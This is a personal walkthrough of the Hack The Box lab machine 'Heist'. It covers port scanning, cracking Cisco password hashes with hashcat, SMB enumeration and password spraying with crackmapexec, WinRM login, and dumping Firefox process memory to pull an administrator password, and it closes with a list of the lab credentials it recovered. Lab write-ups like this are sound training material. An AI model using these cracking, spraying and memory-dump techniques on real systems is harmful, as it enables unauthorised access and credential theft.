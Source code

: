 # Enumeration 
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows 
## open ports
```
80/tcp    open  http
| http-methods:                                                                                                               
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE        
|_http-server-header: Microsoft-IIS/10.0                                                                                      
| http-title: Support Login Page                            
|_Requested resource was login.php
| http-cookie-flags:                                           
|   /:                                                                                                                        
|     PHPSESSID:             
|_      httponly flag not set      
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
49669/tcp open  unknown

```

### Port 80

![[Pasted image 20230128051518.png]]

Login as a guest
![[Pasted image 20230128051541.png]]
![[Pasted image 20230128051551.png]]
cracking secret 5 
`.\hashcat.exe -m 500 .\hash.txt .\rockyou.txt -O`
![[Pasted image 20230128051708.png]]
also password 7 cracked
`0242114B0E143F015F5D1E161713:$uperP@ssword`
`02375012182C1A1D751618034F36415408:Q4)sJu\Y8qz*A3?d`
Brute forcing smb with passwords we found
![[Pasted image 20230128052923.png]]

`enum4linux -u hazard -p stealth1agent -a $ip`

![[Pasted image 20230128054727.png]]
`cme smb $ip -u users -p passwords --continue-on-success`
now we have a list of users and passwords now we can try to bruteforce users
![[Pasted image 20230128054938.png]]
after some cred spraying 
we are in as chase using  winrm
![[Pasted image 20230128055323.png]]

![[Pasted image 20230128073716.png]]
to do 
inside web directory we can access wwwroot but can't list files but if we try to open .php files they open
![[Pasted image 20230128072155.png]]
![[Pasted image 20230128072204.png]]
hardcoded creds
found that firefox running and in the notes that user chase will access issues list from browser
first download procdump64.exe from microsoft
[procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)
upload it to the target

![[Pasted image 20230128083610.png]]
![[Pasted image 20230128083626.png]]

pick one of firefox processes and run 
![[Pasted image 20230128083645.png]]
now we can grep for the admin email that we found out about earlier 
`Select-String -Path ".\firefox.exe_230128_120324.dmp" -Pattern "admin@support.htb"`
![[Pasted image 20230128083813.png]]
and we have a password
![[Pasted image 20230128083859.png]]
![[Pasted image 20230128083913.png]]

# Loot
hazard smb creds:
	username:hazard
	password: stealth1agent

chase smb creds:
	username:chase
	password:`Q4)sJu\Y8qz*A3?d`

administrator creds:
	username: administrator
	password: `4dD!5}x/re8]FBuZ`


---
Tags: #ctf #htb 
Resources: [Heist](https://app.hackthebox.com/machines/201)